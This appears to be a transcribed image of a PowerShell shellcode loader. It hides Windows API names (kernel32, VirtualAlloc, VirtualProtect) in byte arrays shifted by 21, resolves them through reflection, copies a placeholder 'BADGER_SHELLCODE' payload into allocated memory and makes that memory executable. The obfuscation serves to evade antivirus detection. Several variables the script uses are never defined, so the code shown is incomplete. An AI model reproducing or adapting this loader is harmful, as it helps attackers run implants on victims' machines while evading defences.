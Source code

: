 ```
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
```